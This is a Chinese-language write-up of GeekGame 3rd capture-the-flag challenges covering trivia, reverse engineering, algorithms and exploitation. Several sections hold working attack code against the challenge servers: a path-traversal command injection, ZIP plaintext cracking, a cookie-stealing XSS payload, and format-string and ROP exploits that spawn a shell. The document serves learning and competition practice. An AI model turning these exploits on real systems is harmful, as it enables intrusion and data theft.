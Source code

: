 ## GeekGame 3rd Writeup

### 前言

​	今年第二次来玩 geekgame，学了一点 ics 之后感觉没像去年那么坐牢了。

​	尽管有些题差一点解出来，但结果也还算令人满意。

​	~~今年使用了屯题战术，给榜带来了一点奇观（~~

### prob23-signin 一眼盯帧 [Tutorial]

​	逐帧获取字符然后凯撒解密即可。

​	不知道为什么我的 stegsolve 没用了，最后用的 Pr（大炮打蚊子.jpg）

### prob18-trivia 小北问答 [Turtorial]

#### #1:

​		去高性能计算平台官网，找手册即可：https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html

#### #2:

​		去 github 上找到小米对应机型的代码仓库：https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss

​		在 Makefile 文件中可以找到版本号：5.15.78

```
VERSION = 5
PATCHLEVEL = 15
SUBLEVEL = 78
```

#### #3:

​		在 google 上搜索 "apple" "model identifier" 之类的，最终找到一份比较全的表格：https://www.theiphonewiki.com/wiki/Models

#### #4:

​		在 github 上找到 guiding-star 的后端代码对应逻辑的部分：

```python
DISALLOWED_CHARS = (
        unicode_chars('Cc', 'Cf', 'Cs', 'Mc', 'Me', 'Mn', 'Zl', 'Zp') # control and modifier chars
        | {chr(c) for c in range(0x12423, 0x12431+1)} # too long
        | {chr(0x0d78)} # too long
    ) - EMOJI_CHARS
```

​		本地 python 跑一下就知道答案了，注意只能用 py3.8（3.9 和 3.10 都错了呜呜呜)

#### #5:

​		找了一下 https://web.archive.org/ 有保存过去网页的功能。

​		输入 bilibili.com，唉怎么不行？哦原来以前 b 站的网址是 bilibili.us，进去翻翻即得答案。

#### #6:

​		以 "启迪控股" "konza" "kacst" 为关键字在 google 搜索，发现一个很符合条件的会议：http://www.iaspbo.com.cn/contents/2/533

​		可知本次活动应该在卢森堡举行。

​		同时截取部分白色建筑，放入google识图，得到这是卢森堡爱乐音乐厅，之后就简单了。

<img src='./src/trivia/Luxembourg.png' width=75%>

​		PS: flag 和题目背景都是 LoveLive 相关！~~希望大家多多支持魔爪女孩！冇问题啦！~~

​	

### prob15-service 猫咪状态监视器 [Misc]

​		呜呜呜，之前怎么试都不行，提示看源码之后就很明朗了，代码审计这块还是完全不熟练。

​		发现只有 `STATUS` 命令能让用户注入内容。

​		使用 `cat /usr/sbin/service` 获取 service 脚本内容，关注到这段主要的命令：

```shell
run_via_sysvinit() {
   # Otherwise, use the traditional sysvinit
   if [ -x "${SERVICEDIR}/${SERVICE}" ]; then
      exec env -i LANG="$LANG" LANGUAGE="$LANGUAGE" LC_CTYPE="$LC_CTYPE" LC_NUMERIC="$LC_NUMERIC" LC_TIME="$LC_TIME" LC_COLLATE="$LC_COLLATE" LC_MONETARY="$LC_MONETARY" LC_MESSAGES="$LC_MESSAGES" LC_PAPER="$LC_PAPER" LC_NAME="$LC_NAME" LC_ADDRESS="$LC_ADDRESS" LC_TELEPHONE="$LC_TELEPHONE" LC_MEASUREMENT="$LC_MEASUREMENT" LC_IDENTIFICATION="$LC_IDENTIFICATION" LC_ALL="$LC_ALL" PATH="$PATH" TERM="$TERM" "$SERVICEDIR/$SERVICE" ${ACTION} ${OPTIONS}
   else
      echo "${SERVICE}: unrecognized service" >&2
      exit 1
   fi
}
```

​		发现它不过就是一种包装起来调用程序的形式，那么直接调用 `cat flag.txt` 就行了呗。

​		但是注意到运行目录是在 `/etc/init.d` 下，那么用 `../../` 退回根目录即可，输入 `../../usr/bin/cat /flag.txt` 即得



### prob24-password 基本功 [Misc]

#### flag1:

​		观察压缩包，里面有个莫名其妙的 chromedriver，同时压缩加密方式是 ZipCrypto, Store。

​		搜索了一下 ZipCrypto 的破解方法，其中明文攻击看起来很适用。

​		在 chromedriver 下载页面上寻找大小为 5.57M 的版本，最终得到版号为 89.0.4389.23。

​		使用 ARCHPR 小工具破解即可。

#### flag2:

​		又看了一眼明文攻击的内容，只需要 12 个字节的明文，且其中 8 个字节连续就能破解。

​		搜索一下 pcapng 的文件格式。

​		文件分为若干块，第一块为文件头（其中 x 表示文件头块的大小）：

​			`0A0D0D0Axxxxxxxx` `4D3C2B1A01000000` `FFFFFFFFFFFFFFFF`

​		这些信息对于明文攻击完全够用！使用 bkcrack 工具解决即可：

```
bkcrack -C challenge_2.zip -c flag2.pcapng -p plain2.txt -o 8 -x 0 0a0d0d0a
bkcrack -C challenge_2.zip -c flag2.pcapng -k 152ef3dd 9cb3e97d c3ad256d -d flag2.pcapng
```

### prob16-darkroom Dark Room [Misc]

#### flag1:

​		先手玩一下，发现要在 sanity ≥ 117 时到达终点，正常游玩肯定是不行的。

​		发现有个操作 help 能够小概率提升 san 值，既然有概率，那么可以用大量尝试来通过。

```python
from pwn import *
import re

ip = "prob16.geekgame.pku.edu.cn"
port = 10016
token = b"9:How do you know my uid is 9"

instructions = [
    "newgame",
    "wwj",
    "y",
    "n","n","e","pickup key",
    "w","s","s","e","e","e","pickup trinket",
    "w","s","usewith key door",
    "s","s","n","w","w","w","n","pickup key",
    "s","e","e","e","n","n","w","w","n","n","w","w","usewith key door","use trinket"
]

while True:

    sleep(2.5)

    r = remote(ip, port)

    r.sendline(token)
    r.recv()

    for ins in instructions:
        r.sendline(ins.encode())
        r.recvuntil(b"]:")

    san = 0
    while san < 117:
        r.sendline(b"h")
        s = r.recvuntil(b"]:").decode()
        san = re.search("\((-?\d+)%\)",s)
        san = int(san.group(1))
        if san < 0:
            break
        print(san)
    
    if san > 0:
        break

r.interactive()
```

### prob22-minecraft 麦恩·库拉夫特 [Misc]

#### flag1:

​		在矿洞里走走就看到了

#### flag2:

​		根据提示，我们需要找钻石块。都 flag2 了，想必要用程序找位置。

​		查了一下 mc 区域格式文件 mca，好像普通方块存储的时候会进行压缩，处理起来很麻烦。

​		但是包含额外信息的方块是储存在方块实体（BlockEntity）数据内的，提取比较方便。

​		因此我魔改了 https://github.com/Rapha149/MCWorldTools 中的代码，使其能够找到其他方块实体。

​		通过寻找告示牌（minecraft:sign）的位置，成功找到了 flag2

#### ~~flag3:~~

​		~~我服了这谁写的提示，写了跟没写一样 /fn。能找到 flag3 位置的，能不知道这是红石模电？~~



### prob14-emoji Emoji Wordle [Web]

#### flag1:

​		答案固定的话，直接爆服务器就行！

```python
import emoji_data, requests, re

a = emoji_data.EmojiSequence.items()
a = [e for (e, _) in a]
a = list(filter(lambda x:len(x)==1, a))
print(a)
s = set()

answer = ['?'] * 64

def query(s):
    url = f"https://prob14.geekgame.pku.edu.cn/level1?guess={s}"

    html = requests.get(url).content.decode()
    print(html)

    result = re.match(r'[\s\S]*push\("(.*)"\)[\s\S]*', html)
    result = result.group(1)

    print(s, result)
    return result

for p in range(0, len(a), 64):
    result = query(''.join(a[p:p+64]))

    for i, r in enumerate(result):
        if r == '🟨':
            s.add(a[p + i])

for c in s:
    result = query(c * 64)
    for i, r in enumerate(result):
        if (result[i] == '🟩'):
            answer[i] = c

print(''.join(answer))
```

#### flag2:	

​		题目说了数据存在 SESSION 里，打开 SESSION 一看，base64 一解密，这不是答案吗？

### prob01-homepage 第三新XSS [Web]

#### flag1:

​		阅读代码，发现程序把 flag 放在 /admin 路径下的 cookie，然后再获取自定义网页的 title。

​		查阅跨路径 cookie 相关资料，发现可以用 iframe 标签访问 /admin，以此取得 cookie。

​		payload 如下：

```html
<body>
<a>test</a>

<script>

xc=function(src){
 var o = document.createElement("iframe");
 o.src = src;
 document.getElementsByTagName("body")[0].appendChild(o);
 o.onload=function()
 {
     d=o.contentDocument||o.contentDocument.document;
     document.title=d.cookie;
 };
}("http://prob99-myuidis9.geekgame.pku.edu.cn/admin/");

</script>
</body>
```

### prob13-easyts 简单的打字稿 [Web]

#### flag1:

​		翻了一下关于 TS 的资料，突然发现有一篇能用上：https://juejin.cn/post/6867538991073296392 

​		可以通过 type manipulation 把 flag1 中 'flag' 去除，从而通过报错来输出。

```typescript
type ReplaceOnce<Search extends string, Replace extends string, Subject extends string> =
    Subject extends `${infer L}${Search}${infer R}` ? `${L}${Replace}${R}` : Subject

type filtered = ReplaceOnce<"flag", "", flag1>;
const a : filtered = false;
```

### prob25-krkr 汉化绿色版免费下载 [Binary]

#### flag1:

​		在判断两个字符串相等后，程序输出了 flag1，但是字体颜色与背景颜色一样。使用 Cheat Engine 搜索内存数据即可。

#### flag2:

​		~~呜呜，我为什么不听 flag1 的话去解包 xp3。[快哭了]~~

​		根据提示使用工具（我用的 crass）解包游戏数据。

​			1. 在 `round1.ks` 中可以发现程序是使用字符串 hash 判断两字符串是否相等。

​			2. 在 `data0.kdt` 中可以找到存档中字符串的 hash 值。

​			3. 在 `Config.tjs` 中发现一个自动记录的逻辑。

```text
// ◆ 自动记录已读文章
//选择是否自动记录已读的剧本标签。
//如果这个设定为true，则每次通过标签时都会给系统变量中的
//trail_剧本_剧本文件名_标签名
//这个变量的值+1
//比如first.ks中*start这个标签的话，对应的变量名称将是trail_first_start。
```

​			4. 在 `datasu.ksd` 中找到了对应的自动记录数据。

​		因此，得到字符串中含有 6 个 A，3 个 E，1 个 I，6 个 U，使用程序搜索即可。

```c++
#include <bits/stdc++.h>

std::string a = "AAAAAAEEEIOOOOOO";

const int mod = 19260817;

int get_offset(char c) {
    switch(c) {
        case 'A': return 11;
        case 'E': return 22;
        case 'I': return 33;
        case 'O': return 44;
        case 'U': return 55;
        case '}': return 66;
    }
    return -1;
}

int main() {
    do {
        int hash = 1337;
        for (char c : a) {
            hash = ((long long) hash * 13337 + get_offset(c)) % mod;
        }
        hash = ((long long) hash * 13337 + get_offset('}')) % mod;
        if (hash == 7748521) {
            std::cout << a << std::endl;
        }
    } while (std::next_permutation(a.begin(), a.end()));
    return 0;
}
```

### prob09-easyc 初学 C 语言 [Binary]

#### flag1:

​		`checksec` 一下发现各项防御都开了。

​		观察代码，主要注入点是 `printf` 的格式化字符串。

​		程序读取文件，放到栈上的缓冲区，然而 x86-64 调用函数取第 6 个往后的参数会从栈里取，因此我们可以通过这种方式读取栈上数据。

```python
payload1 = "%d " * 5 + "%016llx," * 50

print(payload1)
```

​		再对读取到的数据进行解码：

```python
solve1 = [0x3445727b67616c66,0x66546e3172505f64,0x6f735f656430635f,0x000a7d597a34655f]
b = []
for ll in solve1:
    for p in range(8):
        b += [(ll >> (p * 8)) & 255]
print(bytes(b))
```

#### flag2:

​		希望使用 ROP 劫持系统的 shell，首先一个问题是怎么往栈上 return 地址写入值。

​		`printf` 有一个不常用的格式 `%n`，用处是把之前输出的字符数写入到对应参数（指针）指向的位置。

​		类似的有 `%lln`，`%hn`，`%hhn` 等，可以写入不同的大小。

​		因此我们可以把任意的地址塞进字符串里（现在这个地址在栈上），然后用这个方法把任意数值写入地址。

```python
def write_bytes(offset, data, absolute=False):
    rsp = get_rsp()
    for i, b in enumerate(data):
        print(f"debug: writing byte {i}, {b}")
        pos = offset + i
        if not absolute:
            pos += rsp + 0x4f0
        f = f'%{b}c%38$hhn' if b else '%38$hhn'
        f = f.encode()
        payload = f + b'\0' * (0x20 - len(f)) + p64(pos) # 此处把地址 pos 对齐到固定位置，方便 printf 调用
        print("payload: ", payload)
        p.sendline(payload)
        sleep(.05)
        p.recvuntil(b'instruction')
```

​		另外一个任务是获取 %rsp 的值，这样才能精确写入 return 地址。

​		发现代码中的 publics 字符串是在栈上的，同时 publics 也作为 printf 的第二参数，直接使用 %p 即可输出 %rsp（带点偏移）。

```python
def get_rsp():
    p.sendline(b"(((%p)))")
    sleep(.05)
    ret = find_hex(p.recvuntil(b"instruction")) - 0x60
    print(f"found rsp: {hex(ret)}")
    return ret
```

​		然而程序中没有 system 函数和 "/bin/sh" 字符串。提示给出的文档指出可以使用 ret2syscall。

​		由于程序开启了 PIE 防护，我们还得找到程序的基址，这样才能利用各个 gadget。我使用栈上返回 __libc_start_main 函数的地址，取得程序基址。

```python
p1 = b'%167$p'
p.recvuntil(b"instruction")
p.sendline(p1)

ret = p.recvuntil(b"instruction")
ret = find_hex(ret)

base_addr = ret - 0xAC20
```

​		syscall (0F 05) 指令的作用是，调用系统操作如 read, write, execve 等，这里就希望使用 execve("/bin/sh", 0, 0) 来劫持进程。

​		根据文档 https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit，我们需要使 %rax=0x3b；%rdi="/bin/sh"；%rsi=0；%rdx=0，修改这些寄存器的值，可以简单通过 pop 指令实现，只需要在程序中找到相应 gadget 即可。其中字符串可以往栈前面随便一个位置写入。

```python
rsp = get_rsp()
binsh_pos = rsp + 0x1000
write_bytes(binsh_pos, b"/bin/sh\0", absolute=True)

pop_rax = base_addr + 0x5a777	# pop %rax; ret
pop_rdi = base_addr + 0x9cd2	# pop %rdi; ret
pop_rsi = base_addr + 0x1781e	# pop %rsi; ret
pop_rdx = base_addr + 0x9bdf	# pop %rdx; ret
syscall = base_addr + 0x9643	# syscall

write_bytes(8, 
            p64(pop_rax)
        +   p64(0x3b)
        +   p64(pop_rdi)
        +   p64(binsh_pos)
        +   p64(pop_rdx)
        +   p64(0)
        +   p64(pop_rsi)
        +   p64(0)
        +   p64(syscall)
)

retback()

p.interactive()
```

​		完整 EXP 见 `./src/easyc/solve2.py`。

### prob10-babystack Baby Stack [Binary]

#### flag1:

​		checksec 一下，PIE 和 Canary 都没开。

​		没给源码，IDA 看看先。

​		发现 readline 的时候，用了 `(unsigned)l - 1 <= i`的方法，使 `l = 0`，无符号数的溢出使判断无效。

​		接着就用简单的 ROP 跳转到给定的 `backdoor`函数。

```python
from pwn import *

ip = "prob10.geekgame.pku.edu.cn"
token = b"9:How do you know my uid is 9"
port = 10010

r = remote(ip, port)
r.sendline(token)

backdoor_addr = 0x4011b6
ret_addr = 0x40136c

payload = b'0\n' + b"A" * 120 + p64(ret_addr) + p64(backdoor_addr)

print(r.recv())
r.sendline(payload)

r.interactive()
```

#### flag2:		

​		沿用和上一题一样的思路，在 printf 的格式化字符串上做文章。

​		首先一个难点是 scanf, printf 遇到 \0 就截断（64 位程序指针一般都有一个 0 字节），加上程序只运行一次，非常不方便注入。

​		因此考虑每次运行都把 main 函数 return 的地址改为 main，让其再运行一次。

​		这样发现了一个小问题，就是有些操作需要 %rsp 16 对齐，我的办法是跳转到 main+6 的位置（少 pop 一个数）。

​		接下来就是如何写数据了，每次运行 main 有三次读入，

​		我采用的办法是：第一次读入给出地址，第二次读入往该地址写入值，第三次读入修改 return 地址。

```python
def inject_start(payload1, payload2, payload3=b"bye", return_pos = main + 0x6, return_to_main=False, first_time=False):
    print(payload1, payload2, payload3)
    p.sendline(payload1)
    sleep(.05)
    p.sendline(payload2)
    sleep(.05)
    padding = 0x38
    if return_to_main:
        assert len(payload3) <= padding
        payload3 = payload3 + b"A" * (padding - len(payload3))
        payload3 = payload3 + p64(return_pos)
    p.sendline(payload3)
    sleep(.05)
    res = p.recvuntil(b'luck~:)')
    print(res)
    return res

for i, byte in enumerate(writing_bytes):
    if (byte == 0):
        f = f'%14$hhn'
    else:
        f = f'%{byte}c%14$hhn'
    inject_start(p64(start_pos + i), f.encode(), return_to_main=True)
    print(f"number: {i}")
```

​		由于 libc 开了 PIE，还是使用类似的方法，通过 __libc_start_main 找到 libc 的基址，调用 libc 中的 system("/bin/sh")

```python
writing_bytes = (
    [(ret_addr     >> (8 * i)) & 255 for i in range(8)] +	# 为了 %rsp 16 对齐
    [(pop_rdi_addr >> (8 * i)) & 255 for i in range(8)] +
    [(binsh_addr   >> (8 * i)) & 255 for i in range(8)] +
    [(system_addr  >> (8 * i)) & 255 for i in range(8)]
)
```

​		还有一个细节是写入位置，每次 return main 后 rsp 会减去 0x10，写入地址要恰好在对应位置。我是用的 gdb 先看一下写入完后的偏移。

​		完整 EXP 见 `./src/babystack/c2.py`。

### prob20-polynomial 绝妙的多项式 [Binary]

​		怎么感觉这题应该归到 Algo 里面去（

#### flag1:

​		IDA 看一下，发现里面有一个 mint 类实现了模 998244353 的整数运算。

​		阅读 flag1 对应的 sub_1803()，发现实际上在做一个多项式求值，在数据段给出了 1~36 的点值。

​		随便插值一下就行（因为一开始没看到模数，所以用的高斯消元，实际上有更好的方法比如 Lagrange 插值）

```python
data = [0x0CF6, 0x16C80709, 0x86B7BDA, 0x5FBEE9E, 0x24D1FFC1, 0x16F76AE2, 0x15F03305, 0x218C23F9, 0x33163AC1, 0x332C16E, 0x27E7B4A7, 0x241D8073, 0x1C6F122, 0x2D73DE13, 0x7FC0A09, 0x0D50F7B7, 0x261B1DD, 0x37E5BB8E, 0x0DA71DC5, 0x2DC3F20C, 0x0CCB13A, 0x2F6341E4, 0x0B0611DB, 0x0A382A1A, 0x103C09B2, 0x1CE2BE88, 0x19A9FD15, 0x2621CFC1, 0x2970DEAC, 0x8A463AA, 0x116C6D31, 0x222E9178, 0x33B9C9DD, 0x2F98D035, 0x0B8177A, 0x342611E8]

mod = 998244353
n = 36

matrix = [[0] * (n + 1) for i in range(n)]

def swap(i, j):
    for k in range(n + 1):
        matrix[i][k], matrix[j][k] = matrix[j][k], matrix[i][k]
def add(i, k, j):
    for p in range(n + 1):
        matrix[i][p] = (matrix[i][p] + k * matrix[j][p]) % mod

for i in range(n):
    matrix[i][n] = data[i]
    for j in range(n):
        matrix[i][j] = (i + 1) ** j % mod

for i in range(n):
    for j in range(i + 1, n):
        if (matrix[j][i]):
            swap(i, j)
            while (matrix[j][i]):
                add(i, -(matrix[i][i] // matrix[j][i]), j)
                swap(i, j)
                
s = ""
for i in range(n - 1, -1, -1):
    for c in range(32, 127):
        if (matrix[i][i] * c % mod == matrix[i][n]):
            ans = c
            s += chr(c)
            break
    
    for j in range(i):
        matrix[j][n] = (matrix[j][n] - ans * matrix[j][i]) % mod

print(s[::-1])
```

#### flag2:

​		进入 flag2 对应的 sub1AAE()，发现把字符串长度补齐到 2 的幂次，然后调用 sub_14BE()。

​		点进去 sub_14BE() 之后，学过算法竞赛的应该很熟悉这段代码，这是多项式运算重要的操作 FFT（Fast Fourier Transform）。

​		推测数组 dword_405280[] 中应该存储的是单位根，在 sub_1309() 中可以发现是使用的常用原根 3 来生成的单位根。

​		那么只要对数据进行一次 FFT 的逆变换即可。

```python
data = [0x0F49, 0x121, 0x31C44DFF, 0x9BBB244, 0x9CD2637, 0x99E9344, 0x3A1174D9, 0x2982CE42, 0x202A3E59, 0x3AD2F444, 0x655DAC3, 0x181AE6C1, 0x2FFCF1EE, 0x0AAE9419, 0x2016E6F4, 0x19CF9F98, 0x2DEA04C3, 0x89262F4, 0x18327C16, 0x373BD1D9, 0x938E62A, 0x36B7868B, 0x3813BCFE, 0x0D213F8D, 0x7E67F22, 0x38FCD76, 0x32A17A7E, 0x2386EE67, 0x382D9FD7, 0x2FA45664, 0x4CFE37E, 0x2AF595C, 0x2103E392, 0x1536B2BA, 0x1C46D639, 0x0B170DEB, 0x2104AB3D, 0x334666E4, 0x0D52FFE1, 0x144A6446, 0x242BCC46, 0x37BF7317, 0x3A97D9A, 0x3B329D1A, 0x724F983, 0x1ED8A93E, 0x25E09BB8, 0x18121D9E, 0x2E301013, 0x105E3542, 0x375ADF03, 0x51674FE, 0x2AC2758E, 0x352291E2, 0x375D7604, 0x338E6B2A, 0x0C8EB7EB, 0x2F5350DC, 0x20E81988, 0x35F5C18E, 0x8753392, 0x0CD0ACE9, 0x17DF5455, 0x1B91C2B0]

n = 64
mod = 998244353

invn = pow(n, mod - 2, mod)
w = pow(3, (mod - 1) // n, mod)

wn = [0] * n
wn[n // 2] = 1
for i in range(n // 2 + 1, n):
    wn[i] = wn[i - 1] * w % mod
for i in range(n // 2 - 1, 0, -1):
    wn[i] = wn[i * 2]


mid = 1
while (mid < n):
    for i in range(0, n, mid * 2):
        for j in range(0, mid):
            x, y = data[i + j], data[i + j + mid] * wn[j + mid] % mod
            data[i + j], data[i + j + mid] = (x + y) % mod, (x - y) % mod
    mid <<= 1

if (idft := 1):
    for i in range(1, n // 2):
        data[i], data[n - i] = data[n - i], data[i]
    for i in range(0, n):
        data[i] = data[i] * invn % mod

print(bytes(data))
```

#### flag3:

​		既然知道 sub_14BE() 是 FFT，很明显 sub_1627() 就是 FFT 逆变换，代码实际上是在做一个多项式乘法（但是截取了前 64 项）

​		但是由于 FFT 时长度是 128，没有发生溢出，因此还是能用多项式求逆还原出数据的。

```python
welcome = [0x77, 0x65, 0x6C, 0x63, 0x6F, 0x6D, 0x65, 0x20, 0x74, 0x6F, 0x20, 0x74, 0x68, 0x65, 0x20, 0x77, 0x6F, 0x72, 0x6C, 0x64, 0x20, 0x6F, 0x66, 0x20, 0x70, 0x6F, 0x6C, 0x79, 0x6E, 0x6F, 0x6D, 0x69, 0x61, 0x6C]

result = [0x2F6A, 0x5A72, 0x82BB, 0x0AB28, 0x0E0BA, 0x10431, 0x12D48, 0x13BA4, 0x1680F, 0x19B4C, 0x1A7C3, 0x1CF0C, 0x20372, 0x22B61, 0x21699, 0x25383, 0x26220, 0x2937A, 0x2ABFB, 0x2DC98, 0x2D6B3, 0x31C9D, 0x34098, 0x34EBC, 0x36C65, 0x3A27D, 0x3C317, 0x3DC21, 0x42900, 0x42A20, 0x46CA4, 0x47612, 0x49A6E, 0x4B259, 0x50845, 0x50666, 0x545CE, 0x55420, 0x5A3DE, 0x5C550, 0x5B2E2, 0x596FC, 0x59395, 0x5A07C, 0x57CF8, 0x57E0A, 0x57CBD, 0x5ADF7, 0x56512, 0x5872F, 0x58E27, 0x5AD27, 0x5936F, 0x594E2, 0x599BD, 0x5AA89, 0x5991C, 0x579AC, 0x573B4, 0x57A8B, 0x5A9EE, 0x58ACC, 0x5ABA2, 0x5B498]

answer = []

n = 64

for i in range(len(welcome), len(result)):
    welcome += [welcome[i % 34]]

for i in range(n):
    ans = result[i]
    for j in range(i):
        ans -= answer[j] * welcome[i - j]
    assert(ans % welcome[0] == 0)
    answer += [ans // welcome[0]]

print(bytes(answer))
```

### prob04-filtered 关键词过滤喵，谢谢喵 [Algorithm喵]

​		阅读题目，发现这其实是一种 esolang，需要我们写几段对应程序喵。

​		由于有条件跳转和标签之类的，可以很容易实现函数的功能（就像汇编一样）喵。

​		因为之前玩过类似的游戏 A=B，所以这题做起来也很顺畅喵。

#### flag1喵:

​		可以在字符串结尾放入一个特殊字符用来分割输入与输出喵。

​		每次循环从开头删一个字符，并对输出 +1 喵。

​		+1 操作可以模拟一个进位的指针，碰到 0-8 直接替换加上去，碰到 9 改成 0 并前进一位喵。

```plain
    把【\Z】替换成【😡0】喵

循环：
    如果看到【\A😡】就跳转到【退出循环】喵

加一：
    把【\A[\s\S]】替换成【】喵
    把【\Z】替换成【😋】喵
    重复把【9😋】替换成【😋0】喵
    把【0😋】替换成【1】喵
    把【1😋】替换成【2】喵
    把【2😋】替换成【3】喵
    把【3😋】替换成【4】喵
    把【4😋】替换成【5】喵
    把【5😋】替换成【6】喵
    把【6😋】替换成【7】喵
    把【7😋】替换成【8】喵
    把【8😋】替换成【9】喵
    把【😡😋】替换成【😡1】喵

    如果看到【😡】就跳转到【循环】喵

退出循环：
    把【😡】替换成【】喵

    谢谢喵
```

​		注意输入可能有换行，不能用 . 而要用 [\s\S] 之类的喵。

#### flag2喵:

​		对长度进行排序，可以给每个字符串设置头尾指针喵。

​		每次循环移动一次头指针，如果两个指针相遇，说明这个字符串比较短喵，就把它放到最后去喵。

​		这样结果就是从小到大排序了喵。

```plain
    把【\n】替换成【😡\n😋】喵
    把【^】替换成【\n😋】喵
    把【$】替换成【😡\n】喵

循环：

    如果没看到【😋】就跳转到【跳出循环】喵

    重复把【\n([^\n]*)😋😡\n([\s\S]*)\Z】替换成【\n\2\n\1】喵

    把【😋(.)】替换成【\1😋】喵

    如果看到【[\s\S]】就跳转到【循环】喵

跳出循环：

    谢谢喵
```

​		这边有个小细节喵，我把开头结尾都放上了一个 \n 方便处理喵。

#### flag3喵：

​		居然要写一个 brainfuck 解释器喵。

​		首先要设计好 brainfuck 运行时的字符串结构喵：

​		我用的是 *[输出字符序列] **#** [BF 程序（其中含有程序指针）] **#** [“栈”（用来记录 [] 嵌套数量）] **#** [模拟纸带（含有当前内存指针）]* 喵。

​		然后根据程序指针右侧字符判断处理喵。

​			`+/-` ：对内存指针附近的值进行修改喵，修改方法和 flag1 一样喵（我为了方便使用 2 进制了喵）。

​			`<>`：移动内存指针喵，如果移出纸带，还需要额外扩展纸带喵。

​			`[`：若内存指针指向 0 就跳转到对应的 `]`右边喵，否则正常移动程序指针喵。

​			`]`：跳转到对应的 `[` 左边喵。

​			`.`：逐个判断内存指针的可能值，并写入输出喵。

```plain
字符串结构：output💙[inst. pointer🟠]program🧡[stack🟡][tape splitted by 💚][data pointer🟢] 喵

stack用于循环体的回调喵
data pointer位于所指数据的右侧喵

初始化：
    把【\n】替换成【】喵
    把【^】替换成【💙🟠】喵
    把【$】替换成【🧡0🟢】喵

执行命令：
    如果看到【🟠🧡】就跳转到【程序结束】喵
    如果看到【🟠>】就跳转到【指针右移】喵
    如果看到【🟠<】就跳转到【指针左移】喵
    如果看到【🟠\+】就跳转到【加一】喵
    如果看到【🟠-】就跳转到【减一】喵
    如果看到【🟠\.】就跳转到【输出】喵
    如果看到【🟠\[】就跳转到【开始循环体】喵
    如果看到【🟠\]】就跳转到【结束循环体】喵

    把【🟠(.)】替换成【\1🟠】喵

    如果看到【.】就跳转到【执行命令】喵

指针右移：
    把【🟠(.)】替换成【\1🟠】喵
右移：
    如果没看到【🟢💚】就跳转到【纸带右扩】喵
    把【🟢(💚\d+)([^\d]|$)】替换成【\1🟢\2】喵
    如果看到【.】就跳转到【执行命令】喵
纸带右扩：
    把【$】替换成【💚0】喵
    如果看到【.】就跳转到【右移】喵

指针左移：
    把【🟠(.)】替换成【\1🟠】喵
左移：
    如果没看到【💚\d+🟢】就跳转到【纸带左扩】喵
    把【(💚\d+)🟢】替换成【🟢\1】喵
    如果看到【.】就跳转到【执行命令】喵
纸带左扩：
    把【🧡】替换成【🧡0💚】喵
    如果看到【.】就跳转到【左移】喵

加一：
    把【🟠(.)】替换成【\1🟠】喵
    把【🟢】替换成【🟩🟢】喵
    重复把【1🟩】替换成【🟩0】喵
    把【0🟩】替换成【1】喵
    把【🟩】替换成【1】喵
    如果看到【.】就跳转到【执行命令】喵

减一：
    把【🟠(.)】替换成【\1🟠】喵
    把【🟢】替换成【🟩🟢】喵
    重复把【0🟩】替换成【🟩1】喵
    把【1🟩】替换成【0】喵
    把【([^\d])0+(1\d*🟢)】替换成【\1\2】喵
    如果看到【.】就跳转到【执行命令】喵

开始循环体：
    把【🟠(.)】替换成【\1🟠】喵
    如果看到【[^\d]0🟢】就跳转到【结束循环】喵
    如果看到【.】就跳转到【执行命令】喵
结束循环：
    把【🟠([^\[\]]+)】替换成【\1🟠】喵
    把【🟠\[(.*)🧡】替换成【[🟠\1🧡🟡】喵
    如果没看到【🟠\]】就跳转到【结束循环】喵
    如果没看到【🟡】就跳转到【已回到尾部】喵
    把【🟠\](.*)🟡】替换成【]🟠\1】喵
    如果看到【.】就跳转到【结束循环】喵
已回到尾部：
    把【🟠\]】替换成【]🟠】喵
    如果看到【.】就跳转到【执行命令】喵


结束循环体：
    把【([^\[\]]+)🟠】替换成【🟠\1】喵
    把【\]🟠(.*)🧡】替换成【🟠]\1🧡🟡】喵
    如果没看到【\[🟠】就跳转到【结束循环体】喵
    如果没看到【🟡】就跳转到【已回到头部】喵
    把【\[🟠(.*)🟡】替换成【🟠[\1】喵
    如果看到【.】就跳转到【结束循环体】喵
已回到头部：
    把【\[🟠】替换成【🟠[】喵
    如果看到【.】就跳转到【执行命令】喵


输出：
    把【🟠(.)】替换成【\1🟠】喵
    把【(💙.*[^\d]100000🟢.*)$】替换成【 \1】喵
    把【(💙.*[^\d]100001🟢.*)$】替换成【!\1】喵
	……
	此处省略 114514 行喵
	……
    把【(💙.*[^\d]1111010🟢.*)$】替换成【z\1】喵
    如果看到【.】就跳转到【执行命令】喵



程序结束：
    把【💙.*$】替换成【】喵
